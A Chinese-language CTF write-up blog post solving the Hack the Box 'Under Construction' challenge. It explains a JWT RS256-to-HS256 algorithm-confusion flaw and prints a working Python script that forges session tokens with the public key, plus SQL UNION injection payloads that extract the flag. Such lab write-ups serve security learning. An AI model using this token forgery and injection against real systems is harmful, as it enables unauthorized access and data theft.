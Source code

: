 ```yaml
---
title: "Hack the Box——Under Construction"
date: 2020-09-12T02:28:26+08:00
showDate: true
draft: false
tags: ["security","hack the box", "ctf"]
categories: ["security"]
---
```



# under construction

## 0x00

因为freelancer那题一天就过了，做题的劲又起来了，乘着明天（应该是今天）周末不上班，熬夜做题吧~

## 0x01

上来是一个登录界面，很简陋，怪不得是under construction

![1.png](1.png)

看看登录注册，抓包看看都有什么。除了session特别长之外，好像没什么特别的。

![2.png](2.png)

看一眼这个session，太眼熟了，这不就是jwt嘛。

丢到jwtio看看

![3.png](3.png)

payload里面又username，还有个公钥。搜了下jwt的RS256，其实就是非对称加密，私钥签名，公钥验签。

顺带还搜到了相关的漏洞。就是可以通过改头部的算法的方式，将`RSA加密算法修改为HMAC`，这样的结果就是服务端会直接使用HS256，并且把传过去的公钥（RSA的公钥）看作是当前算法（HMAC）的密钥来进行验签。

## 0x02

那简单了，直接写代码就好了注入就好了（尝试了sqlmap的tamper能注入但是sqlmap好像不能识别，所以只能手测了。）

```
# coding: utf-8
import jwt
import requests


def gen_token(username):
    payload = {"username": username,
               "pk": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n",
               "iat": 1599843758}
    public = payload.get("pk")
    return jwt.encode(payload, key=public, algorithm="HS256").decode()


def req_host(token):
    url = "http://docker.hackthebox.eu:30513/"
    headers = {
        "cookie": "session=" + token
    }
    r = requests.get(url, headers=headers)
    print(r.text)


def injection(payload):
    token = gen_token(payload)
    req_host(token)


if __name__ == '__main__':
    p = "root' UNION SELECT NULL,NULL,database()--"
    injection(p)
```

## 0x03

最后一顿手测拿到flag

```
if __name__ == '__main__':
    p = "roots' UNION SELECT top_secret_flaag,top_secret_flaag,top_secret_flaag from flag_storage--"
    injection(p)
```

![4](4.png)

## 0x04 

虽然题目有点简单，但是解锁新姿势，jwt加密算法替换

## 0x05 参考资料

[SQLite手工注入方法小结](https://www.cnblogs.com/xiaozi/p/5760321.html)

[攻击JWT的一些方法](https://xz.aliyun.com/t/6776)

[2018CUMTCTF-Final-Web](https://skysec.top/2018/05/19/2018CUMTCTF-Final-Web/#Pastebin/)

[Hacking JWT(JSON Web Token)](https://www.cnblogs.com/dliv3/p/7450057.html#2-%E4%BF%AE%E6%94%B9%E7%AE%97%E6%B3%95%E4%B8%BAnone)